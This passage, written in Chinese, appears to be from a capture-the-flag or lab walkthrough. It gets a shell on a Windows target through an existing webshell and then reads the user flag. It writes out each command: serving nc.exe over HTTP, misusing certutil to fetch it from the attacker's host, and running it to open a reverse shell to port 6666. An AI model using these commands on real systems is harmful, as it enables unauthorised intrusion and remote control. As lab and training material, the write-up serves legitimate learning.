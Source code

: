 上传 nc至服务器，首先需要在本地开启 http 服务

```
cp /usr/share/windows-resources/binaries/nc.exe .
ls
python -m SimpleHTTPServer 80
```

![截图](c40273a2eb3f3fb8bd5a692a88710785.png)

在本地监听6666端口。

```
nc -lvnp 6666
```

通过webshell执行命令完成反弹shell操作

```
certutil.exe -urlcache -f http://10.10.14.7/nc.exe C:\WINDOWS\TEMP\nc.exe
C:\WINDOWS\TEMP\nc.exe 10.10.14.7 6666 -e cmd.exe
```

> certutil.exe：这是Windows系统自带的一个命令行程序，通常用于管理证书。这里被滥用来下载文件。

![截图](2bfd82b9fbe3ae0a399bb4e141adc3be.png)

成功反弹shell，在当前用户桌面上成功找到第一个flag

```
dir c:\Users\Phineas\Desktop
type c:\Users\Phineas\Desktop\user.txt
```

![截图](10fbd49eb17ace190d20c93f9481cd50.png)
